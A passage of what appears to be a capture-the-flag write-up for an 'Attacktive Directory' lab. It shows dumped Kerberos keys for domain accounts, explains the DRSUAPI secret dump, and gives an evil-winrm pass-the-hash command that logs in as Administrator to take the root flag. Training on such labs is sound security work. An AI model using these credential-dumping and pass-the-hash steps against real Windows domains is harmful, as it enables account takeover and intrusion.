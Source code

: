 ```bash
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:7c3276f4004e5c55fe8685294181bdadbea58796c616a8903eff870c9d7d484b
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:e2207c3388c37fec738395fbc106f843
ATTACKTIVEDIREC$:des-cbc-md5:9426b6febf6dc2ab
[*] Cleaning up...
```

Now what do we have here? Well we have a ton of secrets, including: 

* NTLM hashes of all the users within the domain
* Kerberos keys for users within the domain

We can also see that it used the *DRSUAPI* method in order to dump the secrets.

We can now use these password hashes in a **Pass The Hash** attack in order to login remotely to the system using any of these usernames & hash combinations! The tool [evil-winrm](https://github.com/Hackplayers/evil-winrm) gives us exactly what we need to perform this attack!

For example, say we wanted to login as the `Administrator` user, we simply grab the hash which is `0e0363213e37b94221497260b0bcb4fc`:

`evil-winrm -i <INSERT IP ADDRESS> -u administrator -H 0e0363213e37b94221497260b0bcb4fc`

![](https://i.imgur.com/3YTtAew.png)

And we got the root flag!
